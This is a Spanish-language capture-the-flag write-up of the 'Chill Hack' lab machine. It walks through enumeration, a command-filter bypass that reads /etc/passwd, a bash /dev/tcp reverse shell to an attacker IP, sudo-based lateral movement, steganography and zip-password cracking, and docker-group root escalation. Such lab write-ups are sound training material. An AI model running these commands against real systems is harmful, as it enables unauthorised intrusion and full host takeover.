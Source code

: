 ```yaml
---
hidden: true
---
```


# 💻 Chill Hack

## Enumeración

Comenzamos haciendo un escaneo de puertos con **Nmap:**

```bash
map -p- --open --min-rate 5000 -sSVC -Pn -v -oN escaneo.txt 10.10.14.130
```

<figure><img src="../../.gitbook/assets/imagen (41).png" alt="Escaneo Nmap"><figcaption></figcaption></figure>

Como se ve en la imagen la máquina tiene 3 puertos abiertos: **21(FTP)**, **22(SSH)**, **80(HTTP).**

Por el escaneo hecho con nmap vemos el servicio **FTP** tiene habilitado el login "anonymous" y que hay por lo menos un archivo **.txt,** por lo que entramos y descargamos el archivo **note.txt** a nuestro pc. Vemos que hay dos posibles usuarios: **anurodh** y **apaar.**\


<figure><img src="../../.gitbook/assets/imagen (43).png" alt=""><figcaption></figcaption></figure>

Después nos pasamos al servicio **HTTP,** entramos a la página web e inspeccionamos pero no encontramos nada que nos ayude.

<figure><img src="../../.gitbook/assets/imagen (44).png" alt="Página web"><figcaption></figcaption></figure>

### Fuzzing web

Procedemos a hacer enumeración de directorios con **Gobuster:**

```bash
gobuster dir -u http://10.10.14.130 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

Esto nos da una ruta de interes `/secret`

<figure><img src="../../.gitbook/assets/imagen (65).png" alt="Enumeracion gobuster"><figcaption></figcaption></figure>

Al ir a la ruta, encontramos con un campo en el que podemos introducir comandos, pero aquí es donde aplican las restricciones que se mencionaban en la nota, ya que al querer usar comandos como `ls` o `cat /etc/passwd` nos muestra el mensaje en letras rojas

<div align="left">

<figure><img src="../../.gitbook/assets/imagen (45).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

</div>

Intentamos pasar este filtro usando el comando `echo` y confirmamos usuarios mencionados en la nota y algún otro.

```bash
echo $(cat /etc/passwd)
```

<figure><img src="../../.gitbook/assets/imagen (48).png" alt=""><figcaption></figcaption></figure>

## Explotación

Una vez  visto como saltarnos las restricciones, podemos enviarnos una **reverse shell**

```bash
echo $(bash -c  "bash -i >& /dev/tcp/10.9.0.2/443 0>&1")
```

<figure><img src="../../.gitbook/assets/imagen (50).png" alt="reverse shell"><figcaption></figcaption></figure>

Hacemos enumeración de las carpetas de los usuarios entramos a la unica carpeta a la que tenemos acceso `/apaar` entre los archivos encontramos un script en bash llamado `.helpline.sh`, en el contenido del script podemos ver que podríamos ejecutar comandos.

<figure><img src="../../.gitbook/assets/imagen (52).png" alt=""><figcaption></figcaption></figure>

Listamos que podemos ejecutar como sudo y por suerte podemos ejecutar el script como el usuario **apaar.**

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/imagen (53).png" alt=""><figcaption></figcaption></figure>

## Movimiento Lateral

Ejecutamos el script como el usuario **apaar** y cuando nos pregunte por el mensaje ingresamos `/bin/bash`, con esto logramos migrar de usuario.

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

<figure><img src="../../.gitbook/assets/imagen (54).png" alt=""><figcaption></figcaption></figure>

Una vez dentro del usuario podemos ver la **primer flag** dentro del archivo `local.txt`

<figure><img src="../../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

Después de estar explorando mucho alguna forma de escalar privilegios o movernos a otro usuario, admito que tuve que buscar alguna pista, la cual encontré en este writeup:

{% embed url="https://hack.xero-sec.com/writeups/tryhackme/chill-hack" %}

Con esta pista, me di cuenta que debía de buscar en `/var/www/files` donde encontramos un archivo **.php,** al parecer debe de haber algo interesante con la imagen `hacker-with-laptop_23-2147985341.jpg`

<figure><img src="../../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

nos movemos a la ruta de la imagen con un server en Python y en la descargamos en nuestra máquina local con **wget**.&#x20;

<figure><img src="../../.gitbook/assets/imagen (68).png" alt="Python server"><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

Una vez descargada la imagen, intentamos ver sus metadatos con **exiftool**, pero hallamos algo de interés. Por lo que usamos **steghide** extraer cual quier información oculta que pueda tener la imagen.

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Nos extrajo un archivo **.zip** el cual esta protegido con contraseña , por lo que usamos **JohnTheRipper**, primero extraemos la el hash de la contraseña con **zip2john** y después intentamos romper el hash con **John.**

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

Con la contraseña obtenida extraemos el contenido del zip, el cual es un archvio php, en su contenido podemos ver que esta contraseña en base64 del usuario **anurodh.**

<figure><img src="../../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Decodificamos la contraseña y en la máquina victima nos cambiamos al usuario **anurodh**

<div>

<figure><img src="../../.gitbook/assets/imagen (61).png" alt="Bas64 decoded password"><figcaption><p>base64 decode</p></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (62).png" alt="su anurodh"><figcaption><p>su anurodh</p></figcaption></figure>

</div>

## Escalada de privilegios

Con el comando `id`, vemos el el usuario anurodh pertenece al grupo **docker**

<figure><img src="../../.gitbook/assets/imagen (69).png" alt="id anurodh"><figcaption><p>id anurodh</p></figcaption></figure>

Haciendo una búsqueda rápida en [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), encontramos el siguiente comando para escalar privilegios.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (63).png" alt="root flag"><figcaption><p>root flag</p></figcaption></figure>
